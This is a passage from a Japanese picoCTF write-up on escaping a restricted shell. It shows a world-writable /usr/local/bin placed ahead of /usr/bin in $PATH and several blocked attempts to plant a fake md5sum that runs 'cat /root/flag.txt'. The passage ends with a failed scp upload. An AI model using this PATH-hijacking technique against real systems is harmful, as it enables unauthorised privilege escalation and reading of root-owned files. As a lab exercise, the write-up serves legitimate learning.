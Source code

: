 今回は、md5sumのパーミッションは上書きできないようになっています。

<pre>
ctf-player@pico-chall$ ls -al /usr/bin/md5sum
-rwxr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
</pre>

<br /><br />

`$PATH` は以下のようになっており、/usr/bin/ より先に参照されるディレクトリがいくつかあります。

<pre>
ctf-player@pico-chall$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
</pre>

<br /><br />

ひとつひとつ見ていくと、/usr/local/bin/ のパーミッションがおかしなことに書き込み可能になっています。

<pre>
ctf-player@pico-chall$ ls -al /usr/local/
total 0
drwxr-xr-x 1 root root 17 Oct  6  2021 .
drwxr-xr-x 1 root root 19 Oct  6  2021 ..
drwxrwxrwx 1 root root 24 Mar  6 19:42 bin
</pre>

<br /><br />

ということで、/usr/local/bin/md5sum として実行ファイルを置けば、/usr/bin/md5sum の代わりに実行されます。

<br />

md5sum というスクリプトファイルを作りたかったんですが、以下のようなやり方はできなかったので、

<pre>
ctf-player@pico-chall$ echo "cat /root/flag.txt" >> /usr/local/bin/md5sum
-rbash: /usr/local/bin/md5sum: restricted: cannot redirect output
</pre>

<pre>
ctf-player@pico-chall$ cd /usr/local/bin/
-rbash: cd: restricted
</pre>

<pre>
ctf-player@pico-chall$ cat << EOS > md5sum
> #!/bin/bash
> cat /root/flag.txt
> EOS
-rbash: md5sum: restricted: cannot redirect output
</pre>

<pre>
$ scp -P 56250 md5sum ctf-player@rescued-float.picoctf.net:~/
ctf-player@rescued-float.picoctf.net's password:
scp: Connection closed
</pre>
